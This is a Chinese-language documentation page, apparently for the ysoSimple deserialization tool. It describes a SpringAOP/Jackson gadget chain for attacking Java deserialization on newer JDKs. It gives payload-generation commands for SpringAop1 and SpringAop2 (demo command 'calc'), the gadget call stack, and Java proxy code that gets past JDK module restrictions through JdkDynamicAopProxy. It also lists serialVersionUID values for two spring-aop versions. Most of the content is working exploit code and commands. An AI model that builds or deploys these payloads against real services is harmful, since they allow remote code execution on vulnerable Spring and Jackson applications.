 ####  SpringAOP(JDK高版本)

描述：这条链其实也可以叫做Jackson利用链，利用链的触发流程和Jackson基本一样。但是区分开来主要是该链针对JDK高版本反序列化而设计的：通过SpringAOP包的动态代理类绕过模块化的限制，使用XString头触发POJONode的toString方法，TemplatesImpl加载的类不继承AbstractTranslet接口。

工具：

```bash
#DefaultAdvisorChainFactory: serialVersionUID = 273003553246259276L
-m YsoAttack -g SpringAop1 -a "Templateslmpl0:auto_cmd:calc" -encode="Base64"

#DefaultAdvisorChainFactory: serialVersionUID = 6115154060221772279L
-m YsoAttack -g SpringAop2 -a "Templateslmpl0:auto_cmd:calc" -encode="Base64"
```

笔记：简单记录些关于这条链的信息

- 调用栈：

```
Hashmap#readobject
	XString#equals 直接触发
			com.fasterxml.jackson.databind.node.POJONode#toString
				---利用SpringAOP动态代理Proxy方式稳定触发TemplatesImpl的Get方法---
				(Proxy)java.lang.reflect.Proxy---(InvocationHandler)org.springframework.aop.framework.JdkDynamicAopProxy#invoke
				com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
```

- 绕过模块化限制：使用spring-aop中的JdkDynamicAopProxy来代理javax.xml.transform.Templates, 这样在 出发getoutputProperties时，moudle就是变为了javax.xml.transform  在⼀个包下，绕过了moudle模块化限制。

```java
ClassPool pool = ClassPool.getDefault();

//使用AdvisedSupport代理TemplatesImpl绕过高版本jdk的模块化检测
Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Class<?> advisedSupportClass = Class.forName("org.springframework.aop.framework.AdvisedSupport");
Constructor<?> constructor = jdkDynamicAopProxyClass.getConstructor(advisedSupportClass);
constructor.setAccessible(true);
Object advisedSupport = advisedSupportClass.newInstance();

Method setTarget = advisedSupport.getClass().getMethod("setTarget", Object.class);
setTarget.invoke(advisedSupport, templates);
InvocationHandler invocationHandler = (InvocationHandler)constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),new Class[] {Templates.class},(InvocationHandler)invocationHandler);
```

- org.springframework.aop.framework.DefaultAdvisorChainFactory 类在不同的spring-aop版本中suid值会不同，通过粗略整理发现可能存在俩种suid值。所以ysoSimple写了SpringAop1和SpringAop2

```
serialver -classpath E:\apache-maven-3.6.1\mvn-repo\org\springframework\spring-aop\6.0.13\spring-aop-6.0.13.jar org.springframework.aop.framework.DefaultAdvisorChainFactory
org.springframework.aop.framework.DefaultAdvisorChainFactory:    private static final long serialVersionUID = 273003553246259276L;

serialver -classpath E:\apache-maven-3.6.1\mvn-repo\org\springframework\spring-aop\5.2.5.RELEASE\spring-aop-5.2.5.RELEASE.jar org.springframework.aop.framework.DefaultAdvisorChainFactory
org.springframework.aop.framework.DefaultAdvisorChainFactory:    private static final long serialVersionUID = 6115154060221772279L;
```
